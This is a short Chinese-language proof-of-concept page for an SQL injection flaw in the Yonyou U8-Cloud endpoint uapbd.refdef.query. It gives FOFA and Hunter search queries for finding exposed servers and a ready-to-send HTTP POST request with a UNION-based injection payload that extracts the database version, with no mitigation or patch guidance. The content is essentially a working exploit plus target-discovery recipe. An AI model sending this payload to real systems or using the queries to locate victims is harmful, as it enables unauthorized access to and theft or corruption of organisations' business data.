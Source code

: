 # 用友U8-Cloud系统接口uapbd.refdef.query存在SQL注入漏洞

用友U8-Cloud系统接口uapbd.refdef.query存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
title=="U8C"
```

## hunter

```javascript
app.name="用友 U8 Cloud"
```

## poc

```javascript
POST /u8cloud/openapi/uapbd.refdef.query?appcode=huo&isEncrypt=N HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/json
Accept-Encoding: gzip
Connection: close

{"refName":"1%' UNION ALL SELECT 1,CONVERT(INT,@@VERSION),1-- "}
```

![image-20241101195827533](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011958611.png)